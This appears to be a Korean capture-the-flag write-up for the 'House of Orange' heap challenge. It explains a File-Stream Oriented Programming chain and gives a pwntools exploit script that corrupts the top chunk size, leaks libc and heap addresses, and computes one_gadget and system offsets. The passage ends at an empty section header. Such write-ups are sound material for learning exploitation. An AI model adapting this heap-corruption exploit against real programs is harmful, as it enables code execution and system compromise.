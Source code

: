 _IO_FILE_plus, _IO_jump_t, _IO_wide_data structure 가 겹쳐져 있다. (structure 는 구조체 시작 부분)



순서: _IO_list_all 참조 -> main_arena+88 참조 -> main_arena+88 의 chain 참조 -> fake 구조체 참조 -> fake 구조체 vtable 참조 -> vtable 의  _IO_OVERFLOW 참조 -> 쉘 획득



```python
from pwn import *

w = process("./houseoforange")

def build(size, name, price, color):
	w.sendlineafter(':','1')
	w.sendlineafter(':',str(size+1))
	w.sendlineafter(':',name)
	w.sendlineafter(':',str(price))
	w.sendlineafter(':',str(color))

def show():
	w.sendlineafter(':','2')
	w.recvline()
	leak = w.recvline()
	w.recvuntil('+')
	return leak

def upgrade(size, name, price, color):
        w.sendlineafter(':','3')
        w.sendlineafter(':',str(size+1))
        w.sendlineafter(':',name)
        w.sendlineafter(':',str(price))
        w.sendlineafter(':',str(color))

########## Top Chunk Free ##########

build(0x3f0, "a"*(0x3f0-1), 1, 1)
upgrade(0x420, "b"*0x3f0+p64(0)+p64(0x21)+p32(2)+p32(2)+p64(0)*2+p64(0xbc1), 1, 1)
build(0x1000, "c"*(0x1000-1), 1, 1)

########## Libc Leak ##########

build(0x400,"d"*7,1,1)

main_arena_1560 = u64(show()[:-1].ljust(8,'\x00'))
log.info("Main_Arena Leak!!:: "+hex(main_arena_1560))

libc_base = main_arena_1560 - 0x3c5138
log.info("Libc_base Leak!!:: "+hex(libc_base))

IO_list_all = libc_base + 0x3c5520
one_gadget = libc_base + 0xf1147
system = libc_base + 0x45390

########## Heap Leak ##########

upgrade(15,"e"*15,1,1)

heap = u64(show()[:-1].ljust(8,'\x00'))
heap_base = heap - 0x4a0
log.info("Heap_base Leak!!:: "+hex(heap_base))

########## File-Stream Oriented Programming & ##########
				########## Unsorted bin attack ##########

```